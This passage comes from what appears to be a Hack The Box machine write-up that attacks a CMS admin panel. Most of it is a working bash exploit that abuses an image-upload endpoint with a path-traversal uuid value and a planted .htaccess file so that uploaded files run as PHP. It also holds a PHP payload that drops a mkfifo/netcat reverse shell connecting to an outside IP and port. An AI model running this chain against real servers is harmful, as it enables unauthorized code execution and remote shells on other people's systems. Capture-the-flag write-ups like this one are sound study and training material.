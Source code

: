 ```bash
function exploit() {
    login $USER $PASS
    local FILE=$1
    local BODY="$(curl -s -b $COOKIE http://$HOST/admin/edit-content/blender)"
    local CSRF=$(get "$BODY" "tokenCSRF");
    local UUID=$(get "$BODY" "uuid");
    curl -s \
         -b $COOKIE \
         -F "images[]=@$FILE;type=image/jpeg;filename=${FILE%.*}.jpg" \
         -F "uuid=../../tmp/temp" \
         -F "tokenCSRF=$CSRF" \
         -o /dev/null \
         http://$HOST/admin/ajax/upload-images
    curl -s \
         -b $COOKIE \
         -F "images[]=@htaccess.jpg;type=image/jpeg;filename=.htaccess" \
         -F "uuid=$UUID" \
         -F "tokenCSRF=$CSRF" \
         -o /dev/null \
         http://$HOST/admin/ajax/upload-images
    curl -s \
         -b $COOKIE \
         http://$HOST/bl-content/tmp/temp/${FILE%.*}.jpg
}

exploit $FILE
echo "[+] Written to http://$HOST/bl-content/uploads/$FILE"

# clean up
rm -f $COOKIE
```

This exploit takes in one argument: the PHP file to write to `/bl-content/uploads` while `.htaccess` is hardcoded in `htaccess.jpg`.

<div class="filename"><span>htaccess.jpg</span></div>

```
RewriteEngine off
AddType application/x-httpd-php .jpg
```

## Low-Privilege Shell

I'm going to use the exploit to run a reverse shell back.

<div class="filename"><span>shell.php</span></div>

```php
<?php file_put_contents("../../uploads/shell.php","<?php echo shell_exec('rm -rf /tmp/p; mkfifo /tmp/p; /bin/bash </tmp/p | /bin/nc 10.10.16.47 1234 >/tmp/p'); ?>"); ?>
```

{% include image.html image_alt="91669376.png" image_src="/1931add6-7d26-41c0-9867-592733e4a116/91669376.png" %}


[1]: https://www.hackthebox.eu/home/machines/profile/254
[2]: https://www.hackthebox.eu/home/users/profile/94858
[3]: https://www.hackthebox.eu/